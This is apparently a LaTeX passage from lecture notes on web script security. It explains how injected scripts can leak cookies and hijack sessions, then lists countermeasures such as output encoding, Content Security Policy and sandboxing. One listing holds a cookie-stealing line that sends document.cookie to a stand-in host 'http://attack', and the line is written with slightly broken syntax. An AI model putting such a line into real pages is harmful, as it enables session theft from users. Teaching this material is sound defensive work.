 Although the SOP prevents scripts from directly connecting to attacker-controlled servers, scripts can include remote entities into the web page, leading to a HTTP request to a script-specified server. \textbf{Figure} shows an example how cookies can be leaked from a page. By including remote scripts, the attacker can even set up two-way communication (JSONP).

\begin{lstlisting}[language=java, caption=How to leak cookies from a web page., label=listing:]
new Image().src = "http://attack/?=" document.cookie;
\end{lstlisting}

To then take over the user's session, the script can initiate arbitrary requests to the originating server, i.e. blindly inject additional requests in the user session. Alternatively, the script can leak the session cookie (as shown before).


\subsubsection{Countermeasures}

The two main countermeasures for script security are:
\begin{enumerate}
	\item The design of the JavaScript API / browser
	\item The Same-Origin-Policy enforcement by the browser
\end{enumerate}

These handle mainly attacks of scripts against the browser or other open sites. Additional countermeasures for script injection are important:
\begin{itemize}
	\item Defensive programming protects against XSS vulnerabilities (cfr SQL injection), e.g. input validation and output encoding.
	\item Content Security Policies are a new W3C standard that lets the web app authors declare where they expect the client to load resources.
	\item "Sandboxing" of JavaScript code to limit the capabilities of an included script by means of a programmer provided policy.
	\item Information flow control for JavaScript to limit how information can flow through scripts from sensitive sources to public sinks.
\end{itemize}


\subsection{Others}


